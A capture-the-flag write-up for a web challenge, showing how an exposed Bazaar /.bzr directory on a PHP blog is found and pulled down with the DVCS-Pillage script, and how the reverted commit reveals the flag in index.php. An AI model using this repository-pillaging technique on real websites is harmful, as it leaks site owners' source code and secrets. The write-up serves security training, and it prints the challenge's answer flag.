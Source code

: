# My First Blog
Web, 150 points

## Description:

A link to a website containing the following text was provided:

> #### My Blog 
> Just a spot for me to talk about how much I love Canonical 
> #### I love Canonical 
> As someone who is just getting started with Linux, I love Canonical. They build the easiest to use Linux distribution I can find, and they build so many useful tools. So far I've tried out 
> * Juju - The worlds best configuration management tool! 
> * Bazaar- The worlds best version control! 
> * Ubuntu - The worlds best OS! 
> * Launchpad - GitHub? Gross! 
> 
> #### Learning PHP 
> recently learned about PHP and I can't stop switching everything over to it. In fact, this bldg is now powered by PHP, I think!! changed the file extension at least, and added a little PHP code below here. That should pretty much do it right? I have the PHP code commented out for now since I cant seem to get it to work right. I'll have to look into it later. 

## Solution:

This blog seems to be written by a beginner making his first steps in the development world. It's a classic beginner's mistake to upload source control files to the web, making them world-accessible. He is using Bazaar (which is similar to git) - and by trying to access known Bazaar files under "/.bzr" we are able to get a successful response.

Now we can use a script like [DVCS-Pillage](https://github.com/evilpacket/DVCS-Pillage) to download the repository:

```console
~/utils/DVCS-Pillage/bzpillage.sh 138.247.13.106
```

We get the following directory structure:
```console
root@kali:/media/sf_CTFs/mitre/blog# tree -al 138.247.13.106/
138.247.13.106/
└── .bzr
    ├── branch
    │   ├── branch.conf
    │   ├── format
    │   ├── last-revision
    │   └── tags
    ├── branch-format
    ├── checkout
    │   ├── conflicts
    │   ├── dirstate
    │   ├── format
    │   ├── lock
    │   ├── merge-hashes
    │   └── views
    └── repository
        ├── format
        ├── indices
        │   ├── c325a543411b3717bd63b6cc879e3d50.cix
        │   ├── c325a543411b3717bd63b6cc879e3d50.iix
        │   ├── c325a543411b3717bd63b6cc879e3d50.rix
        │   └── c325a543411b3717bd63b6cc879e3d50.tix
        ├── pack-names
        └── packs
            └── c325a543411b3717bd63b6cc879e3d50.pack
```

Let's check out the revision log:
```console
root@kali:/media/sf_CTFs/mitre/blog/138.247.13.106# bzr log
------------------------------------------------------------
revno: 1
committer: BZR Lover
branch nick: filePathTraversalEasy
timestamp: Thu 2018-12-06 13:48:25 -0500
message:
  BZR is so cool!
```

Just one commit, let's take it:
```console
root@kali:/media/sf_CTFs/mitre/blog/138.247.13.106# bzr revert -r 1
  * index.php
```

What does `index.php` contain?
```console
root@kali:/media/sf_CTFs/mitre/blog/138.247.13.106# cat index.php | grep MCA
                // Flag is MCA{canonical_is_literally_my_favorite_company_in_the_whole_world}
```

